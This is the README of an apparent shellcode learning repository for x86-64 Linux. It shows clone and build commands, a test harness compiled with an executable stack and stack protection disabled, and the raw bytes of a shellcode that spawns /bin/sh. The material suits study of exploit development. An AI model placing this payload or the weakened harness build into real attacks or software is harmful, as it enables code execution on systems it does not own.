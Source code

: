 # SHELLCODE SAFEHOUSE
Hello folks, this safehouse contains some custom shellcode targetting intel x86-64 CPU on Linux platform.

##  CLONING
To clone the repository on your local machine, isuue the bellow given command -
```
critical@d3ad:~$ git clone https://github.com/compilepeace/SHELLCODING_INTEL_x86-64
Cloning into 'SHELLCODING_INTEL_x86-64'...
remote: Enumerating objects: 74, done.
remote: Counting objects: 100% (74/74), done.
remote: Compressing objects: 100% (53/53), done.
remote: Total 74 (delta 24), reused 68 (delta 18), pack-reused 0
Unpacking objects: 100% (74/74), done.

```


##  BUILD
Use `make` utility to build an executable binary (having name `*.elf`) and get raw shellcode bytes (as `*.raw`) -
```
critical@d3ad:~SHELLCODING_INTEL_x86-64$ make
gcc -Wl,-N -nostdlib -static exit.s -o exit.elf
objcopy --dump-section .text=exit.raw exit.elf
...
objcopy --dump-section .text=execve_binsh.raw execve_binsh.elf
gcc -z execstack -fno-stack-protector harness.c -o harness.elf
```
To remove all object files generated, issue the bellow given commands -
```
critical@d3ad:~SHELLCODING_INTEL_x86-64$ make clean
rm -f *.elf *.raw
```
To convert shellcode in C-style arrays from raw bytes -
```
critical@d3ad:~SHELLCODING_INTEL_x86-64$ xxd -i ./execve_binsh.raw
unsigned char __execve_binsh_raw[] = {
  0x31, 0xf6, 0x31, 0xd2, 0x52, 0x48, 0xbf, 0x2f, 0x2f, 0x62, 0x69, 0x6e,
  0x2f, 0x73, 0x68, 0x57, 0x54, 0x5f, 0x6a, 0x3b, 0x58, 0x0f, 0x05
};
unsigned int __execve_binsh_raw_len = 23;
``` 

Any suggestions to shellcode optimisation are welcome (feel free to open any issue, cheers!)

You can also email me regarding any queries,<br>
**NAME** : **ABHINAV THAKUR**<br>
**EMAIL**: **compilepeace@gmail.com**


[SHELLCODE_SAMPLES]: ./SHELLCODE_SAMPLES
[test_shellcode.c]: ./test_shellcode.c
